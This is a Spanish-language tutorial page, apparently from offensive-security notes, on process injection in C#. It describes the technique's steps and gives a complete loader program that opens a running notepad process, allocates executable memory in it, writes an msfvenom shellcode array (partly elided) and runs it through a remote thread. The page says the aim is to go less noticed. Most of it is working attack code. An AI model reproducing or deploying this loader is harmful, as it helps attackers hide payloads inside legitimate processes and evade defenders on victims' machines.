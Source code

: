 # Process Inyection C\#

En esta técnica consiste, a diferencia de la anterior en la que creábamos un proceso nuevo en el que se cargaba nuestro shellcode. Ahora lo que vamos a hacer es sobre un proceso existente cargar nuestro shellcode para pasar más desapercibidos. Para lograr esto hay que realizar una secuencia de pasos:

1. Obtener el id y el handle del proceso, esto nos permitirá leer o escribir en la memoria del proceso, eliminar puntos de interrupción o modificar la información de seguridad del proceso.
2. Guardar un espacio de memoria dentro del proceso padre.
3. Cargar el shellcode al espacio de memoria reservado.
4. Ejecutar lo que está en este espacio de memoria.



## Código

{% code lineNumbers="true" %}
```csharp
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;

namespace ProcessInyection
{
    internal class Program
    {
        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(
          IntPtr hProcess,
          IntPtr lpBaseAddress,
          byte[] lpBuffer,
          Int32 nSize,
          out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(
          IntPtr hProcess,
          IntPtr lpBaseAddress,
          [MarshalAs(UnmanagedType.AsAny)] object lpBuffer,
          int dwSize,
          out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr OpenProcess(UInt32 dwDesiredAccess, Boolean bInheritHandle, Int32 dwProcessId);
        const uint PROCESS_ALL_ACCESS = 0x1F0FFF;

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress,
        uint dwSize, uint flAllocationType, uint flProtect);
        [Flags]

        public enum AllocationType
        {
            Commit = 0x1000,
            Reserve = 0x2000,
            Decommit = 0x4000,
            Release = 0x8000,
            Reset = 0x80000,
            Physical = 0x400000,
            TopDown = 0x100000,
            WriteWatch = 0x200000,
            LargePages = 0x20000000
        }

        [Flags]
        public enum MemoryProtection
        {
            Execute = 0x10,
            ExecuteRead = 0x20,
            ExecuteReadWrite = 0x40,
            ExecuteWriteCopy = 0x80,
            NoAccess = 0x01,
            ReadOnly = 0x02,
            ReadWrite = 0x04,
            WriteCopy = 0x08,
            GuardModifierflag = 0x100,
            NoCacheModifierflag = 0x200,
            WriteCombineModifierflag = 0x400
        }

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread( 
           IntPtr hProcess,
           IntPtr lpThreadAttributes, 
           uint dwStackSize, 
           IntPtr lpStartAddress,
           IntPtr lpParameter, 
           uint dwCreationFlags, 
           out IntPtr lpThreadId
           );


        static void Main(string[] args)
        {
            // msfvenom payload
            byte[] buf = new byte[682] {
                0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
                0x48,0x31,0xd2,0x51,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
                                           . . .
                0x01,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x00,0x59,0xbb,0xe0,0x1d,
                0x2a,0x0a,0x41,0x89,0xda,0xff,0xd5 };


            // 1.1 ID del proceso en el que vamos a alocar la shellcode
            int processId = Process.GetProcessesByName("notepad")[0].Id;

            // 1.2 Handler del proceso
            IntPtr handlerProcess =  OpenProcess(PROCESS_ALL_ACCESS, false, processId);

            // 1.3 Crear el espacio de memoria en el proceso
            IntPtr address =  VirtualAllocEx(handlerProcess, IntPtr.Zero, (uint) buf.Length, (uint)AllocationType.Commit| (uint)AllocationType.Reserve, (uint)MemoryProtection.ExecuteReadWrite);

            // 2.1 Copiar la shellcode a la memoria alocada
            IntPtr outNull =  IntPtr.Zero;
            WriteProcessMemory(handlerProcess, address, buf, buf.Length, out outNull);

            // 3.1 Crear un thread para ejecutar la shellcode
            CreateRemoteThread(handlerProcess, IntPtr.Zero, 0, address, IntPtr.Zero, 0, out outNull);
        }
    }
}

```
{% endcode %}



